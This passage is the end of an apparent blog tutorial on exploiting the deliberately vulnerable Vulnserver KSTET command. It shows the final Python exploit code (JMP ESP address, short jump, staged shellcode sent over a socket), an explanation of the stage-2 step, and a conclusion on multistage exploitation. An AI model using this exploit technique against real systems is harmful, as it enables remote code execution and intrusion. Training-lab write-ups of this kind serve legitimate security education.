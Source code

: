 ``` python
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending stage-1 payload...')
    fd.sendall(PAYLOAD)
    # This will trigger our stage-1 payload
    fd.recv(1024)
    time.sleep(3)
    print('Sending stage-2 payload...')
    fd.sendall(STAGE2)
    print('Boom!')
```

Several things are worth to mention:

1. We created a `STAGE2` variable with the shellcode and padded the
    rest of the 1024 bytes with NOPs (`\x90`).

2. We added a `time.sleep(3)` to wait for the brute force to get the
    socket handle.

3. And finally, we send the stage-2 payload.

Let’s see it in action:

<div class="imgblock">

![Stage-2 payload](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331154/blog/vulnserver-kstet/stage2payload_wyl7oa.gif)

</div>

Beautiful\! As you can see, the shellcode was injected below our
execution flow, so it will eventually be reached and triggered. Also,
the socket handle was now `0x151`, which means that our brute forcer
worked just as expected. Let’s see if we got the shell:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331149/blog/vulnserver-kstet/success_uidgpb.gif)

</div>

Woohooo\! We got our shell\! And in a lot more fun way than with
egghunters, huh?

You can download the final exploit [here](exploit.py).

## Conclusion

Multistage exploitation is a very cool method to use the available bytes
to create exploits. Tools like Metasploit use staging to deliver complex
payloads like `Meterpreter`, but when you do it yourself is a lot more
rewarding\!
